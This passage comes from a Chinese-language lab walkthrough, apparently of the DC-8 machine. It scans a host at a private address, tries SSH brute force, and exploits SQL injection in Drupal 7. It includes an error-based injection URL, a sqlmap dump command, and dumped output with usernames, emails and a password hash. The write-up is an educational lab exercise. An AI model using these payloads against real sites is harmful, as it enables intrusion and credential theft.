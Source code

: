 查看发现了80，22端口，操作系统linux  
进一步扫描,没发现其他端口

```
nmap 192.168.124.152 -p 1-65535
```

爆破ssh,无结果

```
nmap --script=ssh-brute 192.168.124.152
```

查看80端，cms Drupal 7  

![upload successful](https://lnng.top/images/pasted-269.png)

**upload successful**

### [](https://lnng.top/posts/2ea3.html#%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8 "漏洞利用")漏洞利用

msf上的基本漏洞利用没效果，这里发现id尝试一下sql注入吧  

![upload successful](https://lnng.top/images/pasted-270.png)

**upload successful**

  
先尝试简单的报错注入吧，没有任何防护直接注入  
sqlmap一把梭哈  

![upload successful](https://lnng.top/images/pasted-271.png)

**upload successful**

```
http://192.168.124.152/?nid=1%20and%20updatexml(1,concat(0x7e,database()),1)#

sqlmap -u http://192.168.124.152/?nid=1 -D d7db -T users --dump
```

成功报出，账号密码的hash值  

![upload successful](https://lnng.top/images/pasted-272.png)

**upload successful**

```
05:16:06] [INFO] resumed: 'admin'
[05:16:06] [INFO] resumed: '1567489015'
[05:16:06] [INFO] resumed: 'dc8blah@dc8blah.org'
[05:16:06] [INFO] resumed: '1567766626'
[05:16:06] [INFO] resumed: 'dcau-user@outlook.com'
[05:16:06] [INFO] resumed: '$S$D2tRcYRyqVFNSc0NvYUrYeQbLQg5koMKtihYTIDC9QQqJi3ICg5z'
[05:16:06] [INFO] resumed: '0'
[05:16:06] [INFO] resumed: ''
[05:16:06] [INFO] resumed: 'filtered_html'
[05:16:06] [INFO] resumed: '1'
[05:16:06] [INFO] resumed: ''
[05:16:06] [INFO] resumed: 'Australia/Brisbane'
[05:16:06] [INFO] resumed: '1'
[05:16:06] [INFO] resumed: '1567498512'
[05:16:06] [INFO] resumed: 'a:5:{s:16:"ckeditor_default";s:1:"t";s:20:"ckeditor_show_toggle";s:1:"t";s:14:"ckeditor_width";s:4:...
[05:16:06] [INFO] resumed: ''
[05:16:06] [INFO] resumed: 'john'
[05:16:06] [INFO] resumed: '1567489250'
[05:16:06] [INFO] resumed: 'john@blahsdfsfd.org'
[05:16:06] [INFO] resumed: '1567497783'
```